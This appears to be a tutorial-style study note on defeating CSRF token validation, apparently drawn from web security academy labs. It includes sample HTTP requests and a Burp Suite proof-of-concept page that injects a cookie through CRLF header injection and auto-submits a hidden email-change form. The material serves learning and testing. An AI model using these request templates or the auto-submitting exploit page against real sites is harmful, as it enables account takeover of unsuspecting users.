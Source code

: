 
## Summary

The following methods may be used to bypass the CSRF token validation:
1. Change request type (e.g. from GET to POST)
2. Do not include a csrf token at all
3. Use a known csrf token (login to your account and send your csrf token in the payload)
4. If the website contains a cookie-setting functionality, check if the csrf token is associated to a non-session cookie and send both to the user's browser.

## What is a CSRF token?

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When issuing a request to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token. Otherwise, the server will refuse to perform the requested action.

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

```http
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

When implemented correctly, CSRF tokens help protect against CSRF attacks by making it difficult for an attacker to construct a valid request on behalf of the victim. As the attacker has no way of predicting the correct value for the CSRF token, they won't be able to include it in the malicious request

## Common flaws

### Validation of CSRF token depends on request method

Some applications may validate the CSRF token on POST but not on GET

```http
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

### Validation of CSRF token depends on token being present

Some applications will skip validation if the token is emmited.

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

### CSRF token is not tied to the user session

Some applications do not validate if the token belongs to the same session as the user who is making the request. An attacker can log in to the application, obtain a valid token, and then feed that token to the victim.

### CSRF token is tied to a non-session cookie

*Note:* The website needs a cookie-setting functionality for this attack to work.

In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

Exploit example:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a8e007b047a489fc2532caf001f0010.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="update2&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="879Bdd8QtCt927g0ZVE0axISbraVssy0" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0a8e007b047a489fc2532caf001f0010.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=kZAzUyWo3pfV7suHjMwHiq2UEO7CpOIg%3b%20SameSite=None" onerror="document.forms[0].submit()">

  </body>
</html>
```

### CSRF token is simply duplicated in a cookie

The concept is the same as above, except the cookie value is duplicated with the csrf token.

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```